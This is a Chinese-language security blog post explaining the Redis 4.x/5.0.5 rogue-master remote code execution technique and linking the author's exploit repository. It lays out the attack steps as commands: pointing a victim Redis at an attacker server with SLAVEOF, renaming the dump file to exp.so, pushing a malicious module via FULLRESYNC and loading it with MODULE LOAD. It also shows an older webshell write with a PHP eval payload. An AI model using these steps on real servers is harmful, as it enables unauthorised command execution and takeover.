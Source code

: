 ```yaml
---
title: "Redis <= 5.0.5 RCE"
date: 2019-07-07T10:08:33+08:00
categories: ["Researching", "Security"]
tags: ["web"]
---
```


# Redis <= 5.0.5 RCE

本文介绍由LCBC战队队员Pavel Toporkov在zeronights 2018上介绍的redis 4.x RCE攻击。会议slide链接：<https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf>

攻击场景：
* 能够访问远程redis的端口（直接访问或者SSRF）
* 对redis服务器可以访问到的另一台服务器有控制权

本文的exp开源在github上：

<https://github.com/n0b0dyCN/redis-rogue-server>

欢迎大家来star~

## 背景知识

### redis协议

redis支持两种传输协议，一种是明文传输，其命令如下：

``` redis
SET keyname value\n
```

另一种是经过编码的传输协议：

``` redis
*3\r\n$3\r\nSET\r\n$7\r\nkeyname\r\n$5\r\nval
ue\r\n
```

将其格式化大概长这个样子：

``` redis
*<number of arguments> CR LF
$<number of bytes of argument 1> CR LF
<argument data> CR LF
...
$<number of bytes of argument N> CR LF
<argument data> CR LF
```

笔者主要使用第二种协议实现exp。

### CONFIG SET

CONFIG SET命令用于对redis进行配置。常用如下：

``` redis
CONFIG SET dir /VAR/WWW/HTML
CONFIG SET dbfilename sh.php
SET PAYLOAD '<?php eval($_GET[0]);?>'
BGSAVE
```

这是之前redis常用的getshell套路。但是由于权限问题，并不是总能成功写入文件。

### SLAVEOF

SLAVEOF命令为redis设置主服务器。

``` redis
127.0.0.1:6379> SLAVEOF 127.0.0.1 7000
```
该命令将端口为6379的服务器的主服务器设置为端口为7000的服务器。端口为6379的服务器将开始同步端口为7000服务器的数据来保证数据的一致性。同时服务器可以随时取消主从状态：

``` redis
127.0.0.1:6379> SLAVEOF NO ONE
```

SLAVE和MASTER之间的握手机制如下：

![SYNC protocol](/images/posts/redis-4.x-rce/sync-protocol.png)

握手后SLAVE将向MASTER发送PSYNC请求同步，一般有三种状态：

* FULLRESYNC：表示需要全量复制
* CONTINUE：表示可以进行增量同步
* ERR：表示主服务器还不支持PSYNC

### MODULE LOAD

MODULE LOAD命令为redis加载外部的模块，该模块可以自定义。模块编写方法可以参考官方示例：<https://github.com/RedisLabs/RedisModulesSDK>。

该命令使用方式如下：

``` redis
MODULE LOAD /path/to/exp.so
MODULE UNLOAD exp
```

## 攻击流程

### Rogue Server

我们需要建一个服务器来在同步过程中向redis server发送我们的module。服务器要响应redis的请求：

``` redis
[>] PING - test if a connection is still alive
[<] +PONG
[>] REPLCONF - exchange replication information between master and slave
[<] +OK
[>] PSYNC/SYNC - synchronize slave state with the master
[<] +FULLRESYNC
```

### 步骤

#### 将redis设置为我们的slave
``` redis
SLAVEOF server port
```

#### 设置redis的数据库文件
``` redis
CONFIG SET dbfilename exp.so
```

#### 从rogue server接收module
``` redis
+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<payload>
```

#### 加载模块
``` redis
MODULE LOAD ./exp.so
```

### 攻击效果

设置主服务器与数据库文件：
![step 1](/images/posts/redis-4.x-rce/step1.png)

向redis server发送payload：
![step 2](/images/posts/redis-4.x-rce/step2.png)

加载模块：
![step 3](/images/posts/redis-4.x-rce/step3.png)

最终可以实现命令执行：
![step 4](/images/posts/redis-4.x-rce/step4.png)
